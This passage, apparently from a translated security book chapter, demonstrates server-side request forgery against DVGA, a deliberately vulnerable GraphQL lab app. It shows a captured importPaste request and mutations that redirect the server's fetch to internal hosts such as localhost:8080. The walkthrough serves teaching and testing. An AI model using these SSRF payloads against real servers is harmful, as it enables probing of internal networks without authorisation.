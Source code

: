 ```
POST /graphql HTTP/1.1
Host: localhost:5013
Content-Length: 302
Accept: application/json
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)
AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36
`--snip--`
Origin: http://localhost:5013
Referer: http://localhost:5013/import_paste
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: env=graphiql:disable
Connection: close

{"query":"mutation ImportPaste ($host: String!, $port: Int!, $path: String!,
$scheme: String!) {\n        importPaste(**host:** $host, **port:** $port, **path:** $path,
**scheme:** $scheme) {\n          result\n        }\n }","variables":{"host":"pastebin.com","port":443,"path":"/raw/LQ6u1qyi",
"scheme":"https"}}
```

如你所见，请求使用了 `importPaste` 变更操作，接受四个参数：`host`、`port`、`path` 和 `scheme`。POST JSON 负载包含 `variables` 键，用于将 URL 组件（值）传递给这些参数。

在后台，DVGA 使用 URL 作为 HTTP GET 请求的一部分，读取响应，并将其添加到粘贴数据库中。要查看导入的内容，点击 Burp Suite 中的**转发**按钮，将请求发送到 GraphQL 服务器，关闭拦截模式，然后进入**私人粘贴**页面。

从底层来看，GraphQL 发起了一个 HTTP 请求，从 URL 中检索该内容。这种功能明显是 SSRF 漏洞的表现！让我们手动探索相同的 GraphQL 查询，修改其中的一些值。变更操作见清单 9-7。

```
mutation {
  importPaste(scheme: "https", host:"pastebin.com", port:443, path:"/raw/LQ6u1qyi") {
    result
  }
}
```

清单 9-7：`importPaste` 变更操作

如果你仔细观察，这四个参数组成了 GraphQL 构建 URL 的基本元素（在这个例子中是 *https://pastebin.com:443/raw/LQ6u1qyi*）。如果我们能使用 HTTP（或 HTTPS）协议，并提供任意的域名和端口，那么就没有什么可以阻止我们在 DVGA 网络上探查其他服务了，对吧？

让我们看看当我们指定内部 URL 而非外部 URL 时会发生什么。在清单 9-8 中，我们指定了一个不同的 URL 目的地来导入粘贴内容。该变更操作将迫使 DVGA 通过 HTTP 请求从 *http://localhost:8080/paste.txt* 导入粘贴。请注意，虽然 `localhost` 是一个有效的主机，但端口 `8080` 在 DVGA 容器上并未开放，因此这个请求不会返回任何有意义的内容。

```
mutation {
  importPaste(scheme: "http", host:"localhost", port:8080, path:"/paste.txt") {
    result
  }
}
```
